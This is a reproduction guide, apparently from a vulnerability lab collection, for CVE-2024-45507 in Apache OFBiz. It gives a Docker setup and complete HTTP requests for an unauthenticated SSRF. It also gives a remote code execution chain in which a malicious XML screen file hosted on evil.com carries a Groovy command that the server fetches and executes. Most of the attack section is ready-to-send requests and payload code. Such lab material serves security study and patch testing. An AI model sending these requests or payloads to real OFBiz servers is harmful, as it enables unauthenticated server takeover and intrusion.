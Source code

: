# Apache OFBiz SSRF and Remote Code Execution Vulnerability (CVE-2024-45507)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

This vulnerability (CVE-2024-45507) affects Apache OFBiz versions prior to 18.12.16. It allows an unauthenticated attacker to perform Server-Side Request Forgery (SSRF) and potentially achieve remote code execution.

References:

- <https://github.com/apache/ofbiz-framework/commit/ffb1bc4879>
- <https://xz.aliyun.com/t/15569>
- <https://paper.seebug.org/3228/>

## Vulnerable environment

Execute the following command to start an Apache OFBiz 18.12.15 server:

```
docker compose up -d
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

### Server-Side Request Forgery (SSRF) attack

Send a POST request to `/webtools/control/forgotPassword/StatsSinceStart` with the following request:

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://10.10.10.10/path/to/api
```

## Remote Code Execution

Create a malicious XML file (payload.xml) on a public server like `http://evil.com/ofbiz/payload.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">

    <screen name="StatsDecorator">
        <section>
            <actions>
                <set value="${groovy:'touch /tmp/success'.execute();}"/>
            </actions>
        </section>
    </screen>
</screens>
```

Then replace your malicious XML url into following request and send:

```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

statsDecoratorLocation=http://evil.com/ofbiz/payload.xml
```

![](1.png)

The command `touch /tmp/success` will be executed on the target server, demonstrating successful exploitation.

![](2.png)
